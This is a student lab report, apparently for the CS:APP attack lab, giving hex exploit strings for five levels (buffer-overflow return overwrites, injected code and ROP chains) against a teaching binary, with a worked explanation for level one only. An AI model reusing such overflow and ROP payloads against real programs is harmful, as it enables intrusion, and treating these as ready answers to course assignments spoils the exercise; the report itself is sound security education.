 # ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

1. **level1**  
![avatar](level1.png)  
2. **level2**  
![avatar](level2.png)
3. **level3**
![avatar](level3.png)
4. **level4**
![avatar](level4.png)
5. **level5**
![avatar](level5.png)

## 字符答案

1. **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  
2. **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
3. **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
4. **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
5. **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

1. **level1**
阅读$getbuf$及$touch1$对应的汇编语句片段，即下图。
![avatar](touch1.png)
发现$getbuf$第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。
原本进入$getbuf$之前栈顶存储的应当是下一句执行语句的位置，则将溢出值设置为$touch1$开始位置4017c0，可以误导程序调用$touch1$。
因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。
16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。

2. **level2**

3. **level3**

4. **level4**

5. **level5**

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化和栈不可执行能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。
2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。
3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效规定。
4. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。
